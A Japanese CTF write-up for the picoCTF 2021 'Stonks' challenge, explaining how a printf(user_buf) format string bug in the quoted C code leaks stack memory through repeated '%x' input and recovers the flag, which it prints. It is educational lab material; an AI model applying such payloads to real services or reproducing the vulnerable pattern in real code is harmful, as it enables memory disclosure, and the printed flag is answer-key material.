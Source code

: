 # Stonks:Binary Exploitation

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! 
[vuln.c](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202021/Stonks/vuln.c) `nc mercury.picoctf.net 33411`

# Solution

とりあえずプロンプトに`nc mercury.picoctf.net 33411`をなげてみる。
```
$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
1
Buying stonks with token:
1
Portfolio as of Fri Apr 26 02:07:58 UTC 2024


1 shares of VP
2 shares of YCWC
14 shares of VJMP
5 shares of NZIO
44 shares of SFO
87 shares of YR
154 shares of ZRZ
796 shares of CIJD
5 shares of EXT
Goodbye!
```
株を買うor状態を見ることができるらしい。添付のプログラムを見てみると、
flagはapi_bufに格納されているっぽい。それから以下の部分で何かしらできそう。
```
	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API
 ```
 user_bufを表示してくれるみたいなので、とりあえずAPI tokenを聞かれるところで`%x`を入力してみる。と、なんか出てきた。
 ```
 Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e4d3f0
Portfolio as of Fri Apr 26 02:13:52 UTC 2024


1 shares of SSY
10 shares of QTK
2 shares of VMZ
90 shares of V
360 shares of H
141 shares of JM
38 shares of THL
1180 shares of WCF
Goodbye!
```
`%x`をたくさん並べてみればflagが見られるかも。
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
95843b0804b00080489c3f7f17d80ffffffff19582160f7f25110f7f17dc7095831801958439095843b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe5007df7f52af8f7f254401ec2430010f7db4ce9
Portfolio as of Fri Apr 26 01:54:28 UTC 2024


1 shares of LV
1 shares of WD
27 shares of E
188 shares of OXJ
70 shares of AC
1189 shares of QYXJ
Goodbye
```
出てきた怪しげな謎文字列をhex→UTF-8にすると、\
![image.png](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202021/Stonks/image/capture.png)
\4文字ずつ逆になっているflag(リトルエンディアンで記述されている)が出てきたので、並べ替える。

`picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`

ちなみに、Format String Attack(書式文字列攻撃)という、printf()などの関数の引数の特性を利用した攻撃方法らしい。
